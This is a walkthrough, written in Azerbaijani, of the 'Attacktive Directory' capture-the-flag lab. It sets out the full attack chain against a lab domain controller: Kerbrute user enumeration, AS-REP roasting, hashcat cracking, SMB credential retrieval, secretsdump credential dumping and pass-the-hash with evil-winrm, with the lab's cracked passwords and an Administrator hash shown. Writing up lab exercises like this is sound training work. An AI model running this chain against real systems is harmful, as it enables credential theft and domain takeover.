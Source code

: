 # Attacktive Directory CTF

Nmap, cihazda hansı portların açıq olduğunu, hansı xidmətlərin işlədiyini aşkar etmək və hətta hansı əməliyyat sisteminin işlədiyini aşkar etmək üçün illər ərzində təkmilləşdirilmiş nisbətən mürəkkəb bir yardım proqramıdır.

```bash
sudo nmap -sV 10.10.56.170 -T4 -vv
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/50ffca3483cc27315a55a5c892b785a6ac0910aa/img/nmap.png)

* Əvvəlcə Impacket Github repo-nu qutunuza klonlamalı olacaqsınız. Aşağıdakı komanda Impacket-i `/opt/impacket-ə` klonlayacaq:
```bash

git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install

```
* Hələ də problem yaşayırsınızsa, aşağıdakı skripti sınaqdan keçirə və bunun işlədiyini yoxlaya bilərsiniz:
```bash
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ 
sudo pip3 install .
sudo python3 setup.py install
```
# Bloodhound və Neo4j quraşdırılması

Bloodhound, Attacktive Directory-ə hücum edərkən istifadə edəcəyimiz başqa bir vasitədir. Alətin xüsusiyyətlərini daha sonra nəzərdən keçirəcəyik, lakin hələlik Apt ilə iki paket quraşdırmalıyıq, bunlar `bloundhound` və `neo4j`. Onu aşağıdakı əmrlə quraşdıra bilərsiniz:

* link: https://www.kali.org/tools/bloodhound/

- Problemlərin aradan qaldırılması (**Troubleshooting**)

Bloodhound və Neo4j quraşdırmaqda probleminiz varsa, aşağıdakı əmri verməyə cəhd edin:
```bash
sudo apt update && apt upgrade
sudo neo4j console

#Yükləmək istədikdə , hər hansı bir problem olsa, onda bu linkə keçid edin:
link: https://www.kali.org/tools/bloodhound/
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/44faca9cb9a8b675093739ebaaa434111eac6768/img/neo.png)

#  Evil-WinRM :
`https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm#using-evil-winrm`

Note : **Evil-WinRM** Windows serverlərinə və iş stansiyalarına **Windows Remote Management (WinRM)** vasitəsilə qoşulmaq üçün istifadə olunan bir alətdir.

```bash
sudo apt install evil-winrm

link : https://www.kali.org/tools/evil-winrm/
```

# Enum4linux:
Enum4linux Windows sistemlərində informasiya toplamaq üçün istifadə olunan bir Linux alətidir. Əsas məqsədi Windows sistemləri haqqında mümkün qədər çox məlumat əldə etməkdir, xüsusilə də Active Directory və ya şəbəkə sınaqları zamanı.

```bash
 enum4linux -a 10.10.56.170 
```
NetBIOS və SMB (Server Message Block) protokolu vasitəsilə məlumat toplamaq:
(139/445)
Sistem adları, domen adları və iş qrupları haqqında məlumat.
Paylaşılan resursların siyahısını çıxarmaq (shared folders).
Aktiv istifadəçilər və qruplar haqqında məlumat.

![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/44faca9cb9a8b675093739ebaaa434111eac6768/img/enum4linux.png)

```bash
# nmap scan vasitəsilə default skriptləri yoxladıq
sudo nmap -sCV  10.10.56.170 -T4 -vv  
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/1561c098ad65e80af3594a5a2f984be38e9cf86f/img/nmap-script.png)

# Kerberos
- Kerberos Active Directory daxilində əsas autentifikasiya xidmətidir. Bu portun açıq olması ilə istifadəçiləri, parolları və hətta parol spreyini kobud güclə tapmaq üçün `Kerbrute` adlı alətdən  istifadə edə bilərik!
1. Kerbrute yuklemek ucun: https://github.com/ropnop/kerbrute/releases
2. Parollar üçün wordlists: https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
3. İstifadəçilər üçün wordlists : https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

```bash
kerbrute userenum --dc 10.10.56.170 -d spookysec.local userlist.txt
```

![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/1561c098ad65e80af3594a5a2f984be38e9cf86f/img/kerbrute.png)

**ASREProasting** adlı hücum metodu ilə **Kerberos** sistemindəki bir zəiflikdən sui-istifadə etmək mümkündür. Bu hücum, istifadəçi hesabının **"Ön Doğrulama Tələb Etmir"** (Pre-Authentication Not Required) imtiyazına malik olduğu hallarda baş verir.

Bu nə deməkdir?

- Belə hesablar **Kerberos Bileti (TGT - Ticket Granting Ticket)** tələb etməzdən əvvəl hər hansı bir identifikasiya (məsələn, düzgün parol və ya hər hansı digər təsdiq mexanizmi) təqdim etməyə ehtiyac duymur.
- Bu, hücumçuya həmin hesabın **encrypted bileti**ni əldə edib **offline brute-force hücumu** vasitəsilə parolu açmağa imkan verir.

Bu üsul, xüsusilə zəif və düzgün konfiqurasiya olunmamış Kerberos sistemlərini hədəfləmək üçün istifadə edilir.

_________________________________________________________________________________________________________________________
**Kerbrute** alətindən istifadə edərək sistemdə mövcud olan istifadəçi adlarını müəyyən edib onları bir faylda saxlamışam. Daha sonra isə **Impacket**-in `GetNPUsers.py` skriptindən istifadə edərək, parolsuz **AS-REP Roasting** hücumunu həyata keçirirəm.

Bu proses mənə, hansı istifadəçilərin **Kerberos biletlərini (TGT)** parol təqdim etmədən əldə edə biləcəyimi öyrənməyə imkan verir. Əsas məqsəd, "Ön Doğrulama Tələb Etmir" imtiyazına malik olan hesabları aşkarlamaqdır. Bu cür zəifliklər, düzgün konfiqurasiya olunmamış Active Directory mühitlərində istifadə edilə bilər.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip 10.10.56.170 spookysec.local/ -no-pass -usersfile
enum-useers
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/1561c098ad65e80af3594a5a2f984be38e9cf86f/img/asrep.png)

# Ümumi hash növləri
link: https://hashcat.net/wiki/doku.php?id=example_hashes

![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/1561c098ad65e80af3594a5a2f984be38e9cf86f/img/hash-check.png)
```bash
#GetNPUsers.py ilə əldə etdiyimiz hash yeni bir fayla yazırıq,
#ve onu hashcat ilə crack etməyə çalışacağıq.

hashcat -m 18200 yeni-hash passwordlist.txt 

nəticə : management2005
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/1561c098ad65e80af3594a5a2f984be38e9cf86f/img/hashcat-result.png)
# SMBClient
SMBClient — SMB (Server Message Block) protokolunu istifadə edərək, şəbəkə üzərindən fayl paylaşımı, çap xidmətləri və digər şəbəkə resurslarına daxil olmaq üçün istifadə olunan bir alətdir

```bash
smbclient -L //10.10.143.217/  -U svc-admin
smbclient  //10.10.143.217/backup -U svc-admin
get backup_credentials.txt


#Bu komanda, base64 ilə kodlaşdırılmış mətni deşifrə edir.
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/84bb60361b53bff9068b8f4164fe9232e97fbd25/img/smb1.png)
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/84bb60361b53bff9068b8f4164fe9232e97fbd25/img/smb2.png)
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/84bb60361b53bff9068b8f4164fe9232e97fbd25/img/smb3.png)
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/84bb60361b53bff9068b8f4164fe9232e97fbd25/img/smb4.png)

# Credential Dumping: Secretsdump aləti ilə Active Directory-dən istifadəçi məlumatlarını ələ keçirdim.
```bash
secretsdump.py 'spookysec.local/svc-admin:management2005@10.10.143.217'
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/936e08344f995cbdf1951de319542e70fbcb91d0/img/secret1.png)

```bash
secretsdump.py 'spookysec.local/backup:backup2517860@10.10.143.217' 
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/936e08344f995cbdf1951de319542e70fbcb91d0/img/secr2.png)

# Pass the hash with evil-winrm

```bash
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.50.82
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/936e08344f995cbdf1951de319542e70fbcb91d0/img/evi1.png)
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/936e08344f995cbdf1951de319542e70fbcb91d0/img/evil2.png)
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/936e08344f995cbdf1951de319542e70fbcb91d0/img/evil3.png)
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/936e08344f995cbdf1951de319542e70fbcb91d0/img/evil4.png)
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/936e08344f995cbdf1951de319542e70fbcb91d0/img/son.png)
